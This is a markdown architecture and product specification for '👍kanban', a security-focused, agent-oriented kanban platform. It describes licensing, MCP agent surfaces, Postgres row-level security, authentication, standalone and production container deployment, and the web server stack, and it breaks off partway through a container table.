

# Architecture & Product Specification (v2): 👍kanban - Security-First, Agent-First Kanban & Knowledge Platform

- **Official Brand & Namespace Convention:** Public brand **`👍kanban`** (`<title>👍kanban</title>`, `FastAPI(title="👍kanban API")`, WebAuthn `rp.name = "👍kanban"` paired with strict ASCII FQDN `rp.id`); upstream repository & container slug `thumbs-up-kanban` (`thumbs-up-kanban:latest`); internal Python root module `kanban` (`@kanban/web` for frontend)
- **License:** `Apache-2.0` (Permissive open-source; zero `GPL`, `AGPL`, `LGPL`, or `SSPL` runtime dependencies allowed)
- **Repository Modules:** `[kanban, database, mcp, agent]`
- **Priority Hierarchy:** **Priority #0: Security & Access Transparency** | **Priority #1: Native Agent-First Ergonomics & Scriptable Workflows** | **Priority #2: Generous Breathable Whitespace & Emoji Hover-Elaboration UX**
- **Deployment Modes:** Hardened Multi-Container Stack (`docker-compose.yml` + PostgreSQL 16+ + Valkey 8 + Caddy 2) **AND** Zero-Config Single-Container Standalone (`docker run -p 8080:8080 thumbs-up-kanban:latest` with embedded Unix-socket PG16 & `⚠️` Standalone banner)
- **Bootstrap Tracking Board:** `https://kanban.hackedyour.info/kanban/` (`workspace: kanban`, `project: KANBA`)
- **Engineering & QA Standard:** **`>= 95%` Automated Unit Test Coverage** (fast per-test clean DB + pluggable AI fixtures + local CLI agent validation), Mandatory UI Specialist Gate, Dual API+UI Specialist Gate, Local `reality-checker` Forensic QA Gate, and Dash CI/CD Verification

---

## Table of Contents

1. [Mission, `Apache-2.0` Positioning & Enterprise Paywall Gap Analysis](#1-mission-apache-20-positioning--enterprise-paywall-gap-analysis)
   - [1.1 Upstream Agent-First Post-Mortem & Core Thesis](#11-upstream-agent-first-post-mortem--core-thesis)
   - [1.2 Global Competitive Paywall Gap Matrix vs. `👍kanban`](#12-global-competitive-paywall-gap-matrix-vs-kanban-apache-20-day-1-core)
   - [1.3 Research Synthesis: Modern Kanban & Ticketing Expectations](#13-research-synthesis-modern-kanban--ticketing-expectations-9i-9j)
   - [1.4 GitHub Issue #1 Resolution: Four Core Pillars & Architectural Commitments](#14-github-issue-1-resolution-four-core-pillars--architectural-commitments)
2. [System Topology, Container Architecture (`docker run` Standalone + Prod) & Web Server Stack](#2-system-topology-container-architecture-docker-run-standalone--prod--web-server-stack)
3. [Zero-Trust Security Architecture & Explicit Sharing Visibility (`#1`)](#3-zero-trust-security-architecture--explicit-sharing-visibility-1)
4. [Multi-Card Pluggable Authentication Studio (`#6`)](#4-multi-card-pluggable-authentication-studio-6)
5. [Auto-Converted Canonical Markdown Pipeline & Safe Mermaid, Pictures & SVG (`#5`, `#10`)](#5-auto-converted-canonical-markdown-pipeline--safe-mermaid-pictures--svg-5-10)
6. [Breathable Enterprise Whitespace, `<EmojiHint>` Hover System & Kanban Board (`#9`, `#15`)](#6-breathable-enterprise-whitespace-emojihint-hover-system--kanban-board-9-15)
7. [Enterprise Ticket Screen & Complete 17-Feature Specification (`#8a` - `#8q`)](#7-enterprise-ticket-screen--complete-17-feature-specification-8a---8q)
8. [Hierarchical Docs, Pages & Project Stickies with Smart Promotion (`#11`)](#8-hierarchical-docs-pages--project-stickies-with-smart-promotion-11)
9. [Blinking Cursor Sparkle (`✨`) Completion & Surgical Right-Click Engine (`#7`)](#9-blinking-cursor-sparkle--completion--surgical-right-click-engine-7)
10. [Multi-Provider AI Engine (`#2`: `agent/` - OpenAI, Ollama, Gemini & CLI/Remote Harnesses)](#10-multi-provider-ai-engine-2-agent---openai-ollama-gemini--cliremote-harnesses)
11. [Three-Surface Intent-Driven MCP Server (`#12`: `mcp/` - Agent, Docs, Admin)](#11-three-surface-intent-driven-mcp-server-12-mcp---agent-docs-admin)
12. [Universal Object Graph Canonical Markdown DDL & Invalid Link Auditor (`#13a` - `#13j`)](#12-universal-object-graph-canonical-markdown-ddl--invalid-link-auditor-13a---13j)
13. [Admin-Only Custom Scripted Fields & Tiered Privilege Escalation (`#14`)](#13-admin-only-custom-scripted-fields--tiered-privilege-escalation-14)
14. [ScriptRunner Workflows & Remote/CLI Agent Transition Interceptors (`agy -p`, `codex -p`, Gemini, Ollama)](#14-scriptrunner-workflows--remotecli-agent-transition-interceptors-agy--p-codex--p-gemini-ollama)
15. [`>=95%` Clean-DB Testing, Pluggable AI Fixtures, Local Agent CLI & Governance Gates](#15-95-clean-db-testing-pluggable-ai-fixtures-local-agent-cli--governance-gates)

---

## Requirements Traceability Matrix

| Requirement | Specification Section(s) | Core Architectural Mechanism |
| :--- | :--- | :--- |
| **`Apache-2.0` Open-Source License** | Section 1.2, Section 2.5, Section 15.4 | Permissive `Apache-2.0` repo license; CI license gate strictly blocks `GPL`/`AGPL`/`SSPL` transitive dependencies across Python (`uv.lock`) and Web (`pnpm-lock.yaml`). |
| **1. Clear security features (`shared_with` visible)** | Section 3.1 - 3.5 | Unified `principals` + Postgres `FORCE ROW LEVEL SECURITY` + `effective_resource_access` closure + anti-enumeration `access_manifest` + `🛡️` Header Emoji Pill & Effective Access Inspector. |
| **2. OpenAI / Ollama / Gemini + CLI/Remote Agent support** | Section 10, Section 14 | Vendor-neutral `LLMProvider` (`openai` ZDR, `ollama` LAN/air-gap, `gemini` `google-genai`) + `AgentDefinition` registry (`in_app_sdk`, zero-shell `cli_pipe` for `agy -p`/`codex -p`, and outbound WSS `remote_runner`). |
| **3. Project structure `[kanban, database, mcp, agent]` + Containers & Web Server** | Section 2.1 - 2.5 | `uv` workspace with `import-linter` walls; Caddy 2.8+ edge + Uvicorn ASGI + pre-compressed `.br`/`.gz` SPA; supports both hardened multi-container `docker-compose.yml` AND zero-config `docker run -p 8080:8080` standalone with embedded Unix-socket PG16. |
| **4. Initial Kanban `https://kanban.hackedyour.info/kanban/`** | Section 1.3, Section 15.5 | External bootstrap tracking board during initial build, followed by deterministic lossless import (`KANBA-*` key continuity, comments, and QA proof bundles) into self-hosted dogfooding. |
| **5 & 10. Auto-select mode, auto-convert HTML/Rich -> Markdown; Markdown-only DB; Mermaid, Pictures & SVG** | Section 5.1 - 5.4, Section 12.2 | Zero mode-dropdown clutter; auto-detects & converts pasted HTML/Rich Text/Markdown/Plain Text into **100% canonical UTF-8 Markdown in PostgreSQL**; renders `beautiful-mermaid` Worker diagrams, RLS Pictures, and scrubbed SVGs safely via ``/`blob:` under strict CSP. |
| **6. OAuth / LDAP + Local Admin; multiple cards, enable/disable/reorder** | Section 4.1 - 4.3 | `auth_provider_cards` with AES-256-GCM wrapped DEKs, PKCE `S256`, LDAPS ephemeral bind, Argon2id + WebAuthn, zero implicit email auto-linking, `COLLATE "C"` card ordering, and `LOCKOUT_PREVENTED` triggers. |
| **7. Sparkle (`✨`) blinks at cursor + right-click completes** | Section 9.1 - 9.3 | ProseMirror `coordsAtPos` zero-reflow portal + `Decoration.widget` ghost text + 6-row surgical `contextmenu` matrix (preserving spellcheck & Copy/Paste) + `<150ms` RLS-filtered FIM pipeline. |
| **8. Kanban ticket features (`8a` - `8q`)** | Section 7.1 - 7.2, Section 12.2 | All 17 features (`Summary`, hybrid `Assignees` + free-text `🏷️`, per-project `Priority`, Admin-override `Created by` `🔄`, `Dates`, conditional `Modules` omitted when unused + defaults, `Cycle`, DAG `Parent`, `Labels`, 4-tab `Activity`, `Comments`, `Subscribe`, `Link`, `Copy`, `Full Screen`, rule-explained `Archive`, blast-radius `Delete`). |
| **9 & 15. Global Enterprise UX + Breathable Whitespace & Emoji Hover-Elaboration** | Section 6.1 - 6.4, Section 7.1 | Generous breathable whitespace (`52px` topbar, `46px` rows, `324px` columns, `16px x 18px` cards, `960px` drawer with `40px` margins) + standardized `<EmojiHint>` rich hover/focus tooltips replacing noisy repetitive text labels. |
| **11. Docs in Docs tab; Stickies on Project tab + smart promotion** | Section 8.1 - 8.2 | `Pages`/`Docs` `ltree` hierarchy in Docs tab; Project Overview `Stickies` grid with complexity heuristics (`>600` chars / `>10` lines / `>=2` headings / tables / code), snooze, and 1-click ACL-preserving Doc promotion (`💡📄`). |
| **12. MCP (`agent`, `docs`, `admin`; 100% admin tasks via refined intent tools)** | Section 11.1 - 11.4 | `/mcp/agent` (8 tools), `/mcp/docs` (6 tools), `/mcp/admin` (12 orthogonal intent tools covering 100% of admin, workflow-interceptor, and runner tasks + 2-stage `request_delete` -> `execute_delete`). |
| **13. Universal Object Graph (`a` - `i`) + Invalid Link Audit & Delete (`13j`)** | Section 12.1 - 12.3 | Shared-PK UUIDv7 `objects` spine + composite type-pinned FKs (`ON DELETE RESTRICT`) + `object_links` snapshots + `audit_object_links()` 6-reason detector + `invalid_object_link_audits` ledger + `purge_invalid_object_links()`. |
| **14. Admin-only Custom Scripts + Output Format + Tiered Escalation** | Section 13.1 - 13.3 | Admin-only `custom_field_definitions`, strict `output_format_metadata`, `manifest_sha256` AAL2 cryptographic escalation (`PROJECT` -> `WORKSPACE` -> `SERVER`; `INVOKING_USER` vs Admin SP), Wasmtime + `nsjail` + Token-Injecting Egress Proxy. |
| **ScriptRunner Workflows & Remote/CLI Agent Interceptors** | Section 14.1 - 14.4 | Sync Wasm validators/mutators (`<25ms`) + Two-Phase Async Agent Transition Gates (`⏳🤖` -> `✅🤖`/`🛑🤖`) supporting `gemini`, `ollama`, `${context} \| agy -p`, and `${context} \| codex -p` via zero-shell `execve` `stdin` pipes, `:ro` repo mounts, and scoped MCP ticket lookup. |
| **`>=95%` Unit Coverage, Fast Clean DB, Pluggable AI Fixtures & Manual CLI Validation** | Section 15.1 - 15.4 | `>=95%` coverage gate; `tmpfs` PG16 template DB + `0.3ms` `SAVEPOINT` per-test clean rollback; `FixtureLLMProvider`/`FixtureCLIRunner` deterministic cassettes; `kanban-agent validate-*` local CLI testbench. |

---

## 1. Mission, `Apache-2.0` Positioning & Enterprise Paywall Gap Analysis

### 1.1 Upstream Agent-First Post-Mortem & Core Thesis

Autonomous coding agents (`Gemini CLI / Antigravity`, `Claude Code`, `OpenAI Codex`) and security-conscious engineering teams need a workspace where **access boundaries are unmistakable** and **agents are first-class protocol citizens**. Competing platforms globally (Jira, Vibe Kanban, and legacy open-core trackers) fail on three structural fronts:

1. **Restrictive Licensing & Enterprise Paywalls:** Legacy commercial and open-core boards rely on proprietary licensing or copyleft `AGPLv3` while locking SSO (`OIDC`/`LDAP`), granular RBAC, audit logs, custom properties, workflow gates, and metered AI credits behind commercial per-seat tiers.
2. **CRUD-Wrapper MCP Context Collapse (`Issues #29`, `#87`):** Generating 1:1 MCP tools from REST endpoints dumps `70-120+` tools (`45,000+` schema tokens) into context, returns bloated unpruned JSON full of `null`s and raw UUIDs, and exposes single-step hard deletes without friction gates.
3. **Lack of Intent-Based Multi-Surface MCP:** Scoped intent surfaces (`/mcp/agent`, `/mcp/docs`, `/mcp/admin`), `EntityResolver` human keys (`KAN-42`), `summary`/`standard`/`full` LOD tiers, and `InlineSafeDumper` YAML (`~89%` schema token savings) solve agent context bloat natively rather than treating AI as an afterthought.

**Our Mandate:** Build **`👍kanban`** (`thumbs-up-kanban`), a clean-sheet **`Apache-2.0`** platform competing globally against Jira, Vibe Kanban, and legacy enterprise suites where **Security is Priority #0**, **Native Agent-First Ergonomics & Scriptable Workflows are Priority #1**, and **Breathable Whitespace + Emoji Hover-Elaboration UX is Priority #2** - with zero seat taxes and zero AI paywalls.

---

### 1.2 Global Competitive Paywall Gap Matrix vs. `👍kanban` (`Apache-2.0` Day-1 Core)

| Capability Domain | Legacy Open-Core Trackers (`AGPLv3` / Entry) | Commercial Enterprise SaaS (Jira / Paid Tiers) | `👍kanban` (`Apache-2.0` Day-1 Core) |
| :--- | :--- | :--- | :--- |
| **License & Deployment** | `AGPLv3` multi-container stack | Commercial proprietary license | **`Apache-2.0`:** Both hardened multi-container `docker-compose.yml` AND 1-command `docker run -p 8080:8080 thumbs-up-kanban:latest` standalone mode. |
| **Authentication & Identity** | Basic email/password & single OAuth; no LDAP/AD | **Pro:** OIDC<br>**Bus/Ent:** SAML, LDAP/AD, Group Sync | **Multi-Card Auth Studio:** Simultaneous OIDC, OAuth2, LDAPS/StartTLS, WebAuthn/Passkeys, & Local Break-Glass Admin with enable/disable/reordering. |
| **RBAC & Sharing Transparency** | Coarse roles; opaque permission inheritance | **Bus/Ent:** Custom RBAC, permission schemes | **Hybrid RBAC + Resource ACLs + Postgres `FORCE RLS`:** Ubiquitous **`🛡️` Shared-With Emoji Pill** + Effective Access Inspector on every object. |
| **Audit Logs & Provenance** | Mutable/basic issue activity | **Enterprise:** Workspace Audit Logs | **Immutable SHA-256 Hash-Chained Ledger:** Monthly-partitioned `activity_records` covering human edits, `🔄` creator overrides, ACL diffs, and agent/script runs. |
| **AI & Agent Capabilities** | Severely restricted / cloud-locked | **Paid:** Metered AI credits (`1,000/seat`), cloud lock-in | **Native `agent/` + 3-Surface `mcp/`:** `openai`, air-gapped `ollama`, `gemini`, plus CLI harnesses (`agy -p`, `codex -p`); `<150ms` `✨` cursor completion. |
| **Workflows & ScriptRunner** | Basic state groups + simple auto-archive | **Bus/Ent:** Basic approval rules & triggers | **Full ScriptRunner + Agent Transition Interceptors:** Sync Wasm validators/mutators + async `gemini`/`ollama`/`agy -p`/`codex -p` gates with `:ro` repo access. |
| **Markdown, Diagrams & Graph** | HTML/JSON storage drift; basic relations | **Pro/Bus:** Custom properties, Wiki spaces, Gantt | **100% Canonical Markdown DB + Universal Object Graph:** Auto-converts HTML/Rich -> Markdown; safe Mermaid, Pictures & SVGs; proactive `💡📄` Sticky-to-Doc promotion; Invalid Link Auditor. |

---

### 1.3 Research Synthesis: Modern Kanban & Ticketing Expectations (`9.i`, `9.j`)

1. **Superior Spatial Muscle Memory with Generous Whitespace:** Surpasses Jira and Vibe Kanban with a clean navigation rail, breathable `324px` board lanes, `960px` right-docked Ticket Drawer (`640px` spacious prose + `320px` properties rail), and zero-remount Full Screen expansion - replacing verbose text clutter with crisp semantic emojis (`🛡️`, `🔥`, `🤖`, `⏳🤖`, `✨`) backed by rich hover/focus elaboration tooltips.
2. **Sub-16ms Optimistic Interactions + Non-Blocking Gate States:** Drag-and-drop (`@atlaskit/pragmatic-drag-and-drop` + Base-62 `COLLATE "C"` fractional ranks) updates locally in `<12ms`. Transitions intercepted by an async agent gate (`agy -p`, `codex -p`, `gemini`, `ollama`) enter a non-blocking provisional `⏳🤖` state rather than freezing the UI with a spinner, snapping back smoothly (`240ms`) with a `🛑🤖` veto badge and comment if rejected.
3. **Five Native Views, 2D Swimlanes, WIP Limits & Full Keyboard Parity:** Native `List`, `Board`, `Table`, `Calendar`, and `Timeline (Gantt)` layouts; orthogonal `Group By` x `Sub-Group By` swimlanes; Soft/Hard column WIP limits; and complete single-key shortcuts (`Cmd/Ctrl+K`, `C`, `J/K/H/L`, `S`, `P`, `A`, `I`, `L`, `M`, `D`, `X`).
4. **Bootstrap Cutover (`https://kanban.hackedyour.info/kanban/`):** Initial build tickets will be tracked on the bootstrap board (after spec approval) and migrated losslessly (`kanban-ctl import ...`) with `100%` `KANBA-*` key, comment, and QA proof preservation once self-hosting cutover is reached.

---

### 1.4 GitHub Issue #1 Resolution: Four Core Pillars & Architectural Commitments

Addressing **GitHub Issue #1** ("World-Class Kanban Platform: Security-First, Agent-First"), `👍kanban` provides full enterprise competitive parity and superiority over legacy tools (Jira, Plane, Vibe Kanban) across four uncompromising pillars:

#### Pillar 1: Native Agent-First Architecture
- **Three Intent-Driven MCP Surfaces:** Replaces monolithic, context-collapsing CRUD-wrapper tools with `/mcp/agent` (8 orthogonal execution tools), `/mcp/docs` (6 knowledge management tools), and `/mcp/admin` (12 administrative tools with two-stage deletion confirmation). Total schema payload is slashed from 45,000+ tokens to <= 1,800 tokens.
- **Level of Detail (LOD) Token Budgets:** Every entity supports `summary`, `standard`, and `full` LOD projections. Summary responses stay strictly under 1,000 tokens (< 4,000 characters) to prevent context exhaustion in autonomous coding agents.
- **Agent Ecosystem Support:** Native out-of-the-box integration for Claude Code, OpenAI Codex, and Gemini CLI / Antigravity via zero-shell stdin CLI pipes (`agy -p`, `codex -p`), vendor-neutral LLM engines (`openai`, `ollama`, `gemini`), and outbound mTLS remote runners (`:ro` repository mounts).

#### Pillar 2: Priority #0 Hardened Security
- **PostgreSQL 16 FORCE ROW LEVEL SECURITY:** Hardware-enforced `FORCE ROW LEVEL SECURITY` (`NOBYPASSRLS`) across 100% of public tenant tables. Unauthenticated and zero-context queries fail closed returning zero rows.
- **Hostile Input & Unicode Sanitization:** Active rejection of UTF-16 lone surrogates (`0xD800 <= ord(c) <= 0xDFFF` -> `INVALID_UTF8_SURROGATE`) before UTF-8 encoding, stripping invisible formatting and zero-width attack payloads, and hidden-DOM paste-jacking pruning.
- **Zero Plaintext Secrets:** AES-256-GCM envelope encryption with ephemeral in-memory zeroing for all API keys, client secrets, and LDAP credentials.
- **Mandatory Admin AAL2 Protection:** All administrative REST routes under `/api/v1/admin/*` and tools on `/mcp/admin` enforce `Depends(require_admin_aal2)`.

#### Pillar 3: Friction-Free FOSS Deployment
- **Permissive Open Source:** Pure `Apache-2.0` licensing with zero commercial AI paywalls, zero seat taxes, zero cloud telemetry, and zero phone-home tracking.
- **Dual Deployment Topologies:**
  1. *Zero-Config Standalone:* Single-container evaluation and homelab runtime (`docker run -p 8080:8080 thumbs-up-kanban:latest`) with embedded Unix-socket PostgreSQL 16 and sub-3-second startup.
  2. *Hardened Production Stack:* Five-network container architecture (`docker compose up -d`) isolating edge, app, database, sandbox, and egress traffic.
- **Lossless Upgrade Promotion:** Standalone instances can be promoted losslessly to multi-container production via AES-256-GCM streaming backup archives (`KBBAK1`).

#### Pillar 4: Enterprise Whitespace & High-Ergonomics UI
- **Spatial Ergonomics:** Breathable layout featuring a 52px topbar, 324px board lanes, 46px list rows, and a 960px peek drawer (640px spacious prose + 320px properties rail) with zero-remount 3-pane expansion.
- **Optimistic Interactions:** Sub-16ms smooth drag-and-drop state updates with non-blocking provisional gate transitions (`⏳🤖` -> `✅🤖`/`🛑🤖`).
- **Semantic Hover Elaboration:** Standardized 21-emoji `<EmojiHint>` tooltips eliminate noisy text badges while providing instant operational clarity.
- **Canonical Markdown & Sparkle:** 100% canonical UTF-8 Markdown storage with ProseMirror cursor-blinking Sparkle (`✨`) completion and surgical right-click contextmenu accept.

---

## 2. System Topology, Container Architecture (`docker run` Standalone + Prod) & Web Server Stack

### 2.1 Four-Module Monorepo Layout (`[kanban, database, mcp, agent]`)

The repository uses a single Python 3.12+ `uv` workspace (`uv sync --locked --no-build-isolation`) with `import-linter` enforcing unidirectional boundaries (`agent -> mcp -> kanban -> database`) and static compiled React 19 / TypeScript SPA assets in `kanban/web/`. Every module contains a self-describing `GEMINI.md` manifest (`AGENTS.md` symlinked).

```text
/home/adamoutler/kanban/
├── LICENSE                            # Apache License, Version 2.0
├── README.md                          # 👍kanban quickstart, deployment modes & CLI guide
├── AGENTS.md                          # Workspace security, >=95% coverage & specialist QA rules
├── CLAUDE.md -> AGENTS.md             # Cross-harness symlink
├── .agents/
│   ├── agents/                        # Local reality-checker, ui-designer, ux-architect, backend-architect, api-tester, security-engineer
│   └── skills/                        # Local kanban-ticket & kanban-agent-manager skills
├── .forgejo/workflows/ci.yml          # Forgejo CI pipeline + Dash build.log upload
├── docs/
│   ├── ARCHITECTURE_AND_PRODUCT_SPEC.md
│   ├── PROMOTION_AND_BACKUP.md        # KBBAK1 AES-256-GCM streaming backup & standalone -> prod promotion
│   └── qa/                            # Passive forensic proof bundles (docs/qa/<TICKET_ID>/)
├── Dockerfile                         # Multi-stage build producing `runtime-slim` AND default `standalone`
├── docker-compose.yml                 # Hardened multi-network production stack (Caddy + PG16 + Valkey 8)
├── docker-compose.test.yml            # RAM-backed tmpfs PG16 fast test harness
├── deploy/
│   ├── caddy/Caddyfile                # TLS 1.3, HSTS, strict CSP, .br/.gz SPA, WS/SSE & /mcp/* routing
│   ├── standalone/entrypoint.py       # PID-1 tini supervisor for zero-config `docker run` embedded PG16
│   └── seccomp/sandbox-profile.json   # Strict seccomp-BPF syscall allowlist for Tier B / CLI sandboxes
├── database/                          # MODULE 1: PostgreSQL Graph, Canonical Markdown DDL, FORCE RLS, Link Auditor
├── kanban/                            # MODULE 2: FastAPI ("👍kanban API"), Multi-Card Auth, Sanitizer, Workflows & React SPA ("<title>👍kanban</title>")
├── mcp/                               # MODULE 3: Three-Surface MCP Gateway (/mcp/agent, /mcp/docs, /mcp/admin)
└── agent/                             # MODULE 4: OpenAI/Ollama/Gemini Providers, CLI/Remote Runners, Sparkle, Fixtures & CLI Bench
```

---

### 2.2 Standalone `docker run` Mode ("Not Recommended" All-in-One) vs. Production Stack

A core usability requirement is that **`docker run -p 8080:8080 thumbs-up-kanban:latest` must "just work" out of the box with zero external containers and zero required flags**, while clearly signaling that single-container consolidation is not recommended for multi-node production.

#### Architectural Decision: Embedded Unix-Socket PostgreSQL 16+ vs. SQLite Fallback

| Criterion | **Selected: Embedded PostgreSQL 16 + `pgvector` (Unix Socket + PG `LISTEN/NOTIFY` Broker)** | **Rejected: SQLite Fallback (`aiosqlite`)** |
| :--- | :--- | :--- |
| **Priority #0 Security (`FORCE RLS`)** | **100% Identical:** Enforces exact same kernel-level `FORCE ROW LEVEL SECURITY` (`NOBYPASSRLS`) and `effective_resource_access` policies in standalone and prod. | **Broken:** SQLite has zero Row-Level Security, forcing fragile duplicate ORM `WHERE` clauses and breaking our RLS security guarantees. |
| **Graph, `ltree`, Triggers & Link Auditor** | **100% Identical:** Native `ltree`, composite FKs, `COLLATE "C"`, PL/pgSQL `audit_object_links()`, and `pgcrypto` SHA-256 hash-chained `activity_records`. | **Broken:** Lacks `ltree`, PL/pgSQL, per-column `ON DELETE SET NULL (col)`, and row-level `FOR UPDATE` DAG locks. |
| **Semantic RAG (`pgvector`) & Realtime** | **100% Identical:** Native `pgvector` HNSW + built-in Postgres `LISTEN/NOTIFY` `RealtimeBroker` (zero Valkey container needed!). | **Broken:** Requires maintaining a second divergent vector/event codebase. |
| **Upgrade Path to Production HA** | **1-Command Lossless Promotion (`KBBAK1`):** Streaming 4 MiB AES-256-GCM encrypted `.kbbak` backup (`pg_dump -Fc` + `MASTER_KEK`/`KB_AUTH_PEPPER` carryover + rotated session/DB credentials) restored into external PostgreSQL 16+ via `kanban-ctl` (see [`docs/PROMOTION_AND_BACKUP.md`](./PROMOTION_AND_BACKUP.md)). | **Custom ETL Required:** Painful schema/type migration across JSON, UUIDs, and hash chains. |

#### Exact Zero-Config Boot Lifecycle (`docker run -p 8080:8080 thumbs-up-kanban:latest`)

When `DATABASE_URL` is omitted, `kanban-standalone-entrypoint` (supervised by `tini` as PID 1) automatically boots in `standalone_embedded_pg` mode in `< 3 seconds`:

1. **Zero Baked-In Secrets (First-Boot CSPRNG Keyring):** Image layers contain **zero** keys or passwords. On first boot, the entrypoint atomically generates 256-bit `os.urandom(32)` secrets (`MASTER_KEK`, `KB_AUTH_PEPPER`, `SESSION_HMAC_KEY`, internal DB role credentials) into `/var/lib/kanban/data/secrets/keyring.json` (`chmod 0600`). If `/proc/mounts` shows `/var/lib/kanban/data` is backed by ephemeral Docker overlayfs (the user ran `docker run` without `-v`), a high-visibility console + UI banner warns: `⚠️ Ephemeral Storage: Mount -v kanban_data:/var/lib/kanban/data to persist data across container removal`.
2. **Embedded Unix-Socket-Only PostgreSQL 16:** Runs `initdb --encoding=UTF8 --locale=C.UTF-8` on `/var/lib/kanban/data/pgdata` (`listen_addresses = ''`, `unix_socket_directories = '/run/postgresql'`, `shared_buffers = 128MB` -> **zero TCP DB port exists even on container loopback**), installs `pgcrypto`, `ltree`, `pg_trgm`, `btree_gist`, and `vector`, runs `alembic upgrade head` under `kanban_migrator`, and drops migration privileges.
3. **Intra-Container Privilege Separation:** PostgreSQL runs as `postgres`, while the unified Uvicorn ASGI server (`kanban` + mounted `/mcp/*` + `PrecompressedSPAStaticApp` + PG `LISTEN/NOTIFY` broker + Tier A `Wasmtime` runner) drops privileges via `setpriv` to `kanban` (`UID 65532`, `--inh-caps=-all --no-new-privs`) so the web/MCP worker cannot read raw PG heap files or `keyring.json` on disk. *(Also supports rootless `docker run --user 1000:1000` over `/tmp/postgresql`).*
4. **Zero Default Passwords (First-Boot Setup Claim URL):** Never creates `admin/admin`. When `0` users exist, bootstrap mints a single-use 256-bit setup token (`kb_setup_<base64url>`, `TTL = 60m`) printed exclusively to `docker logs`: `First-boot setup URL: http://localhost:8080/setup?token=kb_setup_...`.
5. **Prominent `⚠️` Standalone UI Indicator:** Renders a compact **`⚠️`** emoji badge in the top header bar (`Hover: "Standalone Single-Container Mode (Not Recommended for Production) - Click for volume status, encrypted backup, & 1-click docker-compose.yml export"`). Tier A `Wasmtime` scripts work natively; Tier B `nsjail` CLI sandboxes probe `CLONE_NEWUSER` at startup and fail closed (`SANDBOX_UNAVAILABLE_IN_STANDALONE`) rather than ever executing unsandboxed subprocesses.

---

### 2.3 Web Server & ASGI Process Architecture (`Caddy 2.8+` + `Uvicorn`)

| Layer | Selected Component (`Apache-2.0` / `BSD-3`) | Why Selected Over Alternatives |
| :--- | :--- | :--- |
| **Production Edge Web Server** | **`Caddy 2.8+` (`Apache-2.0`)** | Memory-safe Go TLS 1.3 + HTTP/2 + HTTP/3, automatic ACME/internal mTLS PKI, native unbuffered streaming (`flush_interval -1`) for WebSockets, `Last-Event-ID` SSE, and MCP Streamable HTTP (`2025-06-18`), and zero-Python static `.br`/`.gz` asset delivery. Beats NGINX (C memory CVEs, buffering footguns on SSE/MCP, external Certbot complexity). |
| **Application & MCP ASGI Server** | **`Uvicorn` (`BSD-3`, `uvloop` + `httptools`)** running **`FastAPI` (`MIT`)** | Direct multi-worker/replica async I/O without legacy `Gunicorn` sync prefork overhead; clean ASGI 3.0 lifespan hooks for `asyncpg` pools, WebSocket connection draining, and MCP Streamable HTTP sessions (remains drop-in compatible with Rust `Granian` ASGI). |
| **Standalone `:8080` Single-Port Web Server** | **`Uvicorn` + `PrecompressedSPAStaticApp` ASGI Middleware** | Serves `/api/*`, `/ws`, `/sse`, `/mcp/{agent,docs,admin}`, and pre-compressed `.br` (Brotli-11) / `.gz` static SPA assets from a **single `:8080` port** with identical strict `Content-Security-Policy` headers, eliminating the need to bundle Caddy inside the standalone image. |

---

### 2.4 Multi-Stage `Dockerfile` & Production `docker-compose.yml` Container Matrix

A single root `Dockerfile` produces **both** the lean production image (`--target runtime-slim`, `~240 MB`, zero DB binaries, zero Node/compiler toolchains) and the default `docker run` image (`--target standalone`, default final stage):

```dockerfile
# syntax=docker/dockerfile:1.7
# Stage 1: web-builder (node:22-bookworm-slim) -> pnpm --frozen-lockfile --ignore-scripts -> Vite SPA + .br/.gz + SRI
# Stage 2: py-builder  (python:3.12-slim + uv)  -> uv sync --locked --no-dev --no-build-isolation
# Stage 3A: runtime-slim (python:3.12-slim + tini + libpq5, USER 65532:65532) -> Prod API / MCP / Agent / Relay containers
# Stage 3B: standalone [DEFAULT] (extends runtime-slim + postgresql-16 + pgvector + util-linux, EXPOSE 8080, VOLUME /var/lib/kanban/data)
```

| Container Service | Image Target | Networks (`docker-compose.yml`) | Role & Security Isolation Boundary |
| :--- | :--- | :--- | :--- |
| **`kanban-standalone`** *(Standalone only)* | `thumbs-up-kanban:latest` (`standalone`) | Default Docker bridge (`-p 8080:8080`) | All-in-one evaluation/homelab container: Unix-socket PG16 + Uvicorn SPA/API/WS/MCP + PG `LISTEN/NOTIFY` broker + Tier A `Wasmtime`. |
